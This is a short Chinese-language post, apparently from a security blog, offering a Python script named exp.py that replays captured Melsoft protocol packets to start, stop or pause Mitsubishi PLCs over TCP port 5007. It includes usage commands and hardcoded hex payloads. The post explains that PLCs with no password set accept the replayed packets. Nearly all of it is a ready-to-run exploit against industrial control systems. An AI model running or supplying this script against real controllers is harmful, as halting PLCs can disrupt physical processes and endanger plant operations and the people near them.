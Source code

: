 ```yaml
---
title: 三菱PLC启停脚本
date: 2020-05-17 00:00:00
categories:
- ICS
tags: 三菱 Melsoft
---
```


三菱系列PLC，Melsoft私有协议，但如果没有配置口令，则可以直接进行重放攻击，通过wireshark抓取组态软件与PLC的通信报文即可获得控制PLC的数据包，重放即可。目前功能如下：

1. 启动
2. 停止
3. 暂停

用法：

```bash
➜  python exp.py 192.168.2.1 stop
➜  python exp.py 192.168.2.1 run
➜  python exp.py 192.168.2.1 pause
```

```python
import socket,sys
s = socket.socket()
s.connect((sys.argv[1],5007))
if sys.argv[2]=="run" :
    s.send("57000700001111070000ffff030000fe03000016001c080a08000000000000000410019a00000001000000".decode("hex"))
    s.recv(1024)
elif sys.argv[2]=="stop":
    s.send("57000700001111070000ffff030000fe03000014001c080a0800000000000000041002630000000100".decode("hex"))
    s.recv(1024)
elif sys.argv[2]=="pause":
    s.send("57000700001111070000ffff030000fe03000014001c080a0800000000000000041003040000000100".decode("hex"))
    s.recv(1024)
```